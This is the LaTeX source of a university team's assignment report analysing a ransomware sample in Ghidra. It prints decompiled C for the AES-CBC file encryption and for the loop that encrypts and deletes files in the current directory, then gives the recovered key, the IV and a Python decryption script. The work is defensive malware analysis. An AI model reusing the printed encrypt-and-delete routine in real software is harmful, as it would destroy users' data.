
\documentclass[11pt]{article}

\usepackage{a4wide}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{hyperref}

\setlength{\parindent}{0pt}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstset{
    basicstyle=\ttfamily,      % 设置基本字体
    breaklines=true,           % 自动换行
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\begin{document}

\title{Assignment3 Team6 Report}
\author{Jiayang Xu, Zhengyang Cheng, Haohan Fu, Xibin Yu, Xi Wang and Haoyu Ju}
\date{26, March, 2025}
\maketitle

\section{Analyze the malware's code}
\subsection{Start}
We used Ghidra to analyze the malware code. We found it difficult to find the code that implements the encryption function directly from the entry point, so we started at defined strings in the program. Then we found the AES encryption function \textbf{AES\_Encrypt\_140007080}, whose function call tree is shown in Figure \ref{Call Trees}:

\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.6\textwidth]{img/Call Trees.png}
    \caption{Function call trees}
    \label{Call Trees}
\end{figure}

\subsection{The AES encryption function}
\textbf{AES\_Encrypt\_140007080} is the AES encryption function.

\begin{lstlisting}[language=c++, caption=AES\_Encrypt\_140007080]
    /* Open plaintext file */
    local_f8 = CreateFileW(input_path,1,1,(LPSECURITY_ATTRIBUTES)0x0,3,0x80,
                           (HANDLE)0x0);
    if (local_f8 == (HANDLE)0xffffffffffffffff) {
      DVar3 = GetLastError();
      Error_140007510(L"Error opening plaintext file!\n",DVar3);
    }
    else {
      printf((char *)L"Successfully opened plaintext file, %s. \n",input_path);
                      /* Create encrypted file */
      hFile = CreateFileW(output_path,2,1,(LPSECURITY_ATTRIBUTES)0x0,4,0x80,
                          (HANDLE)0x0);
      if (hFile == (HANDLE)0xffffffffffffffff) {
        DVar3 = GetLastError();
        Error_140007510(L"Error opening destination file!\n",DVar3);
      }
      else {
        printf((char *)L"Successfully created destination file, %s. \n",
               output_path);
        local_e8 = 0x3e0;
        buffer = (undefined8 *)_malloc_base(0x3f0);
        if (buffer == (undefined8 *)0x0) {
          Error_140007510(L"Not enough memory to allocate file buffer. \n",
                          0x8007000e);
        }
        else {
          printf((char *)L"%i file buffer has been allocated. \n",0x3f0);
          local_f0 = (uint *)0x0;
          local_f0 = (uint *)_malloc_base(4);
          bVar1 = false;
          do {
                      /* Write 16 bytes IV */
            BVar2 = WriteFile(hFile,IV_140086010,0x10,lpByteNum,(LPOVERLAPPED)0x0)
            ;
            if (BVar2 == 0) {
              DVar3 = GetLastError();
              Error_140007510(L"Error writing padding size.\n",DVar3);
              goto LAB_1400073da;
            }
            printf((char *)L"IV successfully added to file.\n");
            BVar2 = ReadFile(local_f8,buffer,0x3f0,lpByteNum,(LPOVERLAPPED)0x0);
            if (BVar2 == 0) {
              DVar3 = GetLastError();
              Error_140007510(L"Error reading plaintext!\n",DVar3);
              goto LAB_1400073da;
            }
            if (lpByteNum[0] < 0x3f0) {
              bVar1 = true;
            }
            *local_f0 = lpByteNum[0];
                      /* Write Buffer Length */
            BVar2 = WriteFile(hFile,local_f0,4,lpByteNum,(LPOVERLAPPED)0x0);
            if (BVar2 == 0) {
              DVar3 = GetLastError();
              Error_140007510(L"Error writing padding size.\n",DVar3);
              goto LAB_1400073da;
            }
            printf((char *)L"Length of file buffer successfully added to file.\n")
            ;
            printf((char *)L"Starting CBC encryption.\n");
                      /* AES encrypt */
            InitEncryption_140008790
                      ((longlong)context_array,0x140086000,
                       (undefined8 *)IV_140086010);
            StartEncryption_140008450((longlong)context_array,buffer,0x3f0);
            printf((char *)
                   L"Successfully encrypted file buffer. Writing to destination fi le...\n"
                  );
                      /* Write encryted file */
            BVar2 = WriteFile(hFile,buffer,0x3f0,lpByteNum,(LPOVERLAPPED)0x0);
            if (BVar2 == 0) {
              DVar3 = GetLastError();
              Error_140007510(L"Error writing ciphertext.\n",DVar3);
              goto LAB_1400073da;
            }
          } while (!bVar1);
          thunk_FUN_14003d334(local_f0);
        }
      }
    }
\end{lstlisting}

\textbf{AES-CBC-128}



\section{Determine what files are targeted}


\textbf{EncryptAndRenameFiles\_140007590}
\begin{lstlisting}[language=c++, caption=EncryptAndRenameFiles\_140007590]
    do
    {
      /* Exclude Directory */
      if ((local_10e8.dwFileAttributes & 0x10) == 0)
      {
        CopyWPath_140007bc0(local_a68, 0x104, dir);
        input_addr = local_a68;
        ConcatWPath_140007b20(input_addr, 0x104, local_10e8.cFileName);
        GetModuleFileNameW((HMODULE)0x0, local_858, 0x104);
        thunk_FUN_14000c700((undefined8 *)local_e98,
                            (undefined8 *)local_10e8.cFileName, 6);
        /* Exclude "~en" */
        iVar2 = wcscmp(local_e98, L"~en");
        if (iVar2 != 0)
        {
          _Str2 = PathFindFileNameW(local_858);
          /* Exclude Malware Itelf */
          iVar2 = wcscmp(local_10e8.cFileName, _Str2);
          if (iVar2 != 0)
          {
            CopyWPath_140007bc0(local_648, 0x104, dir);
            output_addr = local_648;
            ConcatWPath_140007b20(output_addr, 0x104, (short *)&DAT_140070fd8);
            ConcatWPath_140007b20(output_addr, 0x104, local_10e8.cFileName);
            AES_Encrypt_140007080(input_addr, output_addr);
            DeleteFileW(input_addr);
          }
        }
      }
      BVar3 = FindNextFileW(local_1110, &local_10e8);
    } while (BVar3 != 0);
\end{lstlisting}

\textbf{RansomwareProcessor\_140008240}
\begin{lstlisting}[language=c++, caption=RansomwareProcessor\_140008240]
void RansomwareProcessor_140008240(void)
{
    /*...*/
    WCHAR dir[264];
    /*...*/
    printf((char *)L"Getting current directory. ");
    GetCurrentDirectoryW(0x104, dir);
    EncryptAndRenameFiles_140007590(dir);
    Sleep(10000);
    /*...*/
}
\end{lstlisting}




\section{Recover the AES key}
As noted above, the memory address of the AES key is the second parameter of the function \textbf{InitEncryption\_140008790}:
\begin{lstlisting}[language=c++, caption=call of InitEncryption\_140008790]
InitEncryption_140008790((longlong)context_array,0x140086000,(undefined8 *)IV_140086010);                              /*Address of AES key*/
\end{lstlisting}

Then we took a screenshot of the key in Ghidra, as shown in Figure \ref{fig:key}.

The AES key is '8d02e65e508308dd743f0dd4d31e484d'.
\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.8\textwidth]{img/key.png}
    \caption{the AES key in Ghidra}
    \label{fig:key}
\end{figure}

\section{Decrypt Hank's files.}
The tool to decrypt Hank's files is \textbf{'assinment3-team6-data/AES\_decrypt.py'}.

There are two important functions in the program.

\subsection{Decrypt a block}
Only keep the actual plaintext length portion, the rest is meaningless padding used during encryption.

\begin{lstlisting}[language=python, caption=decrypt\_block]
def decrypt_block(ciphertext_block, key, iv, actual_plaintext_len):
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_block = cipher.decrypt(ciphertext_block)
    return decrypted_block[:actual_plaintext_len]
\end{lstlisting}

\subsection{Decrypt the file}

\begin{lstlisting}[language=python, caption=decrypt\_file]
def decrypt_file(input_path, output_path, key_hex):
    #...
    with open(input_path, 'rb') as f_in, open(output_path, 'wb') as f_out:
        while True:
            # Read the 16-byte IV
            iv = f_in.read(16)  #0a0b0c0d0e0fa0b0c0d0e0f0aabbccdd
            #...
            # Read the 4-byte actual plaintext length
            block_len_bytes = f_in.read(4)
            #...
            actual_plaintext_len = struct.unpack('<I', block_len_bytes)[0]
            # Read the encrypted 1008-byte block
            ciphertext_block = f_in.read(BLOCK_SIZE)
            #...
            # AES Decrypt
            plaintext_block = decrypt_block(ciphertext_block, key, iv, actual_plaintext_len)
            f_out.write(plaintext_block)
            #...
\end{lstlisting}

To use this python script, please install pycryptodome.
\begin{lstlisting}
pip3 install pycryptodome
\end{lstlisting}

Then replace the following line with YOUR directory of the files to be decrypted, and DO NOT add a '/' to the end of your directory.
\begin{lstlisting}[language=python]
FILE_DIRECTORY = "HanksBackup"
\end{lstlisting}


\section*{Academic Conduct \& Plagiarism:}
We take plagiarism seriously. By submitting your solution, you agree that:

1. The submission is your group's own work and that you have not worked with others in preparing this assignment.

2. Your submitted solutions and report were written by you and **in your own words**, except for any materials from published or other sources which are clearly indicated and acknowledged as such by appropriate referencing.

3. The work is not copied from any other person's work (published or unpublished), web site, book or other source, and has not previously been submitted for assessment either at the University of Birmingham or elsewhere.

4. You have not asked, or paid, others to prepare any part of this work.

\newpage
\appendix
\section*{Appendix}
% \section{Ghidra screenshots}
% Screenshot of the key in Ghidra is shown in Figure \ref{fig:key}. The key is '8d02e65e508308dd743f0dd4d31e484d'.
% \begin{figure}[htbp]
%     \centering
%     
\includegraphics[width=0.8\textwidth]{img/key.png}
%     \caption{the key in Ghidra}
%     \label{fig:key}
% \end{figure}

% Screenshot of IV in Ghidra is shown in Figure \ref{fig:IV}. IV is '0a0b0c0d0e0fa0b0c0d0e0f0aabbccdd'.
% \begin{figure}[htbp]
%     \centering
%     
\includegraphics[width=0.8\textwidth]{img/IV.png}
%     \caption{IV in Ghidra}
%     \label{fig:IV}
% \end{figure}

\section{Ghidra zip file}
The Ghidra project file is \textbf{'assinment3-team6-data/mYSCpPoHAih.gzf'}.

\section{C-style decompiled codes}
All the C-style decompiled codes mentioned above can be found in the
directory \textbf{'assinment3-team6-data/C-style decompiled code'}.

In addition, there are some functions not mentioned above, but which are also
valuable (because they are part of the function call tree), listed below:

\begin{enumerate}
    \item entry.c \begin{lstlisting}[language=C++, caption=entry.c]
void entry(void)
{
    __security_init_cookie();
    RansomwareEntryPoint_14000afe0();
    return;
}
\end{lstlisting}

    \item RansomwareEntryPoint.c \begin{lstlisting}[language=C++, caption=RansomwareEntryPoint\_14000afe0.c]
ulonglong RansomwareEntryPoint_14000afe0(void)
{
    /*...*/
            __scrt_get_show_window_mode();
            _get_wide_winmain_command_line();
            /*Ransomware Processor here*/
            uVar3 = RansomwareProcessor();
            uVar7 = __scrt_is_managed_app();
    /*...*/
}
\end{lstlisting}

\end{enumerate}

\newpage
\section{Decrypted files}
All decrypted files can be found at:

\url{https://github.com/Superior-Josh/FMPT-Assignment3/tree/main/HanksBackup_decrypted}

\subsection{Screenshot of the output}
The successful output of the decryption tool is shown in Figure \ref{fig:output}.
\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.8\textwidth]{img/output.png}
    \caption{Decryption tool output}
    \label{fig:output}
\end{figure}

A decrypted example (\textbf{SampleVideo\_1280\texttimes 720\_30mb.mp4}) is shown in Figure \ref{fig:decrypted_exapmle}.
\begin{figure}[htbp]
    \centering
    
\includegraphics[width=0.8\textwidth]{img/decrypted_exapmle.png}
    \caption{Decrypted file example}
    \label{fig:decrypted_exapmle}
\end{figure}

\end{document}